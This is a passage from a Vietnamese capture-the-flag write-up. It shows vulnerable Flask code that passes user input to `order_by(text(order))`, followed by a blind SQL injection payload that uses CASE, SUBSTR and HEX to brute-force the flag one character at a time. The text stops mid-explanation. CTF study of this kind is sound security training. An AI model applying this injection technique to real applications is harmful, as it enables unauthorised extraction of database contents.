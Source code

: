 Đọc source code, ta thấy đoạn

```python
if order is None:
    metals = Metal.query.filter(Metal.name.like("%{}%".format(search)))
else:
    metals = Metal.query.filter(
        Metal.name.like("%{}%".format(search))
    ).order_by(text(order))
```

Thực hiện truy vấn SQL để tìm tên kim loại. Ở đây, method `order_by()` sẽ sử dụng dữ liệu trực tiếp từ user -> ta sẽ khai thác SQLi ở param này

Dựng server từ source code được cung cấp. Thử bấm bừa `order=abc` ta thấy bị code 500 (do không có cột nào tên là `abc`). Đọc log được query mà server sử dụng.

![Untitled](writeup_media/Untitled%2013.png)

Sau một hồi thử và sai và thử và sai, mình craft được payload cho param `order` như sau , trong đó `§pos§` và `§char§` là 2 vị trí mà ta sẽ sử dụng để brute-force ký tự trong flag

```sql
(SELECT CASE
           WHEN (SELECT HEX(SUBSTR(flag, §pos§, 1)) FROM flag) = HEX('§char§')
               THEN atomic_number
           ELSE name
           END)
```

Gộp lại với query mà server sử dụng, ta có

